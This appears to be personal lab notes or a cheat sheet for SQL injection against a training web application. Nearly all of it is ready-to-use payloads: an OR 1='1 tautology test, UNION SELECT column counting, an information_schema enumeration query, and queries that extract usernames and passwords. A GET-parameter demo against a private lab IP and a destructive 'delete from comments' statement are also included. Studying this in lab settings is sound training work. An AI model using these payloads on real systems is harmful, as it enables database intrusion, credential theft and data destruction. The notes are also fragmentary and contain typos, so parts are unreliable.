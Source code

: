 1. Identify vulnerable field
2. Identify number of columns
3. Craft the golden statement
4. Craft the query
5. Craft Queries
```
# step 1Identify vulnerable field
Audi' OR 1='1

# step 2 Identify Columns
Audi' UNION SELECT 1,2,3,4,5 #     5 columns 

# step 3 Create Golden Statement
Audi ' UNION SELECT table_schema,2,table_name,column_name,5 FROM information_schema.columns #    because we want 3 columns we need 2 and 5 as placeholders
[Audi ' UNION SELECT <column>,<column>,<column> FROM database.table #

# step 4/5 Craft Query
Audi ' UNION SELECT studentID,2,username,passwd,5 FROM session.userinfo #
Audi ' UNION SELECT id,2,name,pass,5 FROM session.user #
Audi ' UNION SELECT username,2,passwd,jump,5 FROM session.userinfo #
Audi ' UNION SELECT tireid,2,size,cost,5 FROM session.Tires #
Audi ' UNION SELECT carid,name,color,cost,5 FROM sessin.car #         wont shoow column 2 due to it being hidden
```
## use placeholders when there are more columns than values youre looking for 
### DEMO GET (search bar) USE MORE
```
http://10.50.29.140/uniondemo.php?Selection=1&Submit=Submit      replace submit=submit
# In the search bar replace & with:
OR 1=1

# Identify vulnerable field (selection 2)
?Selection=3 UNION SELECT 1,2,3

# Identify number of columns (3, displayed in 1,3,2 order)
?Selection=3 UNION SELECT 1,2,3

# Golden Statement order displayed in 1,3,2
?Selection=3 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns

?Selection=3 UNION SELECT id,pass,name FROM session.user

' union select @@version #- this gets the version of the database (put as a value like color or size n the left side of statement 

# Anbotate databases, tables, and columns
Database: session

session
Tables: Tires,car,session_log,user,userinfo

Columns
(Tires): tireid, name, size, cost
(car): carid, name, type, cost, color, year
etc....
```
`delete from comments where ID = 57; 57`
